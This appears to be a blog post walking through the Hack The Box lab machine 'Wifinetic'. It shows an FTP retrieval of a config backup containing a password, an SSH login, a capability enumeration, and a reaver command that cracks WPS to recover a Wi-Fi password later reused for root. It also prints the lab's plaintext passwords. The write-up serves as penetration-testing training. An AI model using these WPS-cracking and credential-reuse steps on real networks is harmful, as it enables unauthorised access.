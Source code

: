 ```yaml
---
date: 2025-01-20
categories: [CTF, HTB]
title: "HTB - Wifinetic"
tags: ['nmap', 'privilege escalation', 'rce','wireless', 'wifi', 'wps', 'reaver', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Wifinetic - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Wifinetic

NMAP

![image1](../resources/ce8446500e1f4547acd22cf85aed2fbd.png)


![image2](../resources/6ff6375347cd4e4682ac2f9f0dc49315.png)

- Get all the files:

```bash
mget *

```

![image3](../resources/5d8968e1beaf47e28211651c4a95d07a.png)

- Extract the .tar file - We get the /etc directory:

From the files we get these - which provides us a username and password to login


![image4](../resources/51ed7e9897e140a8940d0565de9c2024.png)


![image5](../resources/a4b8698506c74fa69f5c7e38cfe70af5.png)

```bash
ssh netadmin@10.129.229.90

```
**VeRyUniUqWiFIPasswrd1!**


![image6](../resources/0c646704891147a5aa4bd3917c184df9.png)


![image7](../resources/569a7bee5ff5431a9eaa9c2f60ee511e.png)

- Doing enumeration - we can see reaver is installed and has the cap_net_raw+ep capability set:
  
```bash
getcap -r / 2>/dev/null

```

![image8](../resources/0819691ac03641d486ddcd855914f838.png)


![image9](../resources/0ca1525dd7e64678a8279c1815dd1e8f.png)

```bash
iwconfig

```

![image10](../resources/3cf2308dcf1e45a79738409937b622ee.png)

- Wireless settings are typically stored in /etc/wpa_supplicant.conf, which is present, but netadmin can’t read it

![image11](../resources/7c15bd8a3ee64381a4327eb3e9e35e64.png)

```bash
iw dev

```

![image12](../resources/2227093ffb7646ecbff81424bc40888f.png)

- We can run reaver against the BSSID using mon0:
[https://outpost24.com/blog/wps-cracking-with-reaver/](https://outpost24.com/blog/wps-cracking-with-reaver/)

```bash
reaver -i mon0 -c 1 -b 02:00:00:00:00:00 -vv

```

![image13](../resources/c074960bf8cf49eab143ed5842afcb63.png)

- Got a password:
**WhatIsRealAnDWhAtIsNot51121!**

- Now we can try and see if that password is used for the root account:
  
```bash
ssh root@192.168.1.1

```

![image14](../resources/2b9deebae1eb404db05df91e5522e823.png)


![image15](../resources/30928906434842d2a768cedd09327c5d.png)

```bash
cat root.txt

```
- Or simply
  
```bash
su -
```

![image16](../resources/620d647e240d40bc999b4ff959ccb6a6.png)
